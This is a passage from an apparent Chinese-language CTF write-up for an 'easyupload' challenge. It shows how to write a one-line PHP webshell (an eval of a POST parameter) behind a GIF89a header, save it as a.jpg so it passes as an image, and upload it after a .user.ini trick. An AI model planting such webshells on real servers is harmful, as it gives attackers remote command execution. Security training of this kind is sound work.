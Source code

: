 <div align=center><img src="../images/2024/08/06/easyupload/easyupload2.png" alt="easyupload2" border="0" width="70%" height="60%"></div>

forward一下哎，不出问题应该成功上传

然后，写一个一句话木马的文件,我这里用的代码是：
```
GIF89a
<?= eval($_POST['cmd']);?>
```

前面**GIF89a**也是用来假冒jpeg文件的，下面的php代码就是一句话木马

写完之后，修改文件类型为jpg。注意文件名一定要是：a.jpg （看你.user.ini写的jpg是什么名字，就命名什么名字）

都写完之后把**a.jpg文件**上传

<div align=center><img src="../images/2024/08/06/easyupload/easyupload3.png" alt="easyupload3" border="0" width="70%" height="60%"></div>
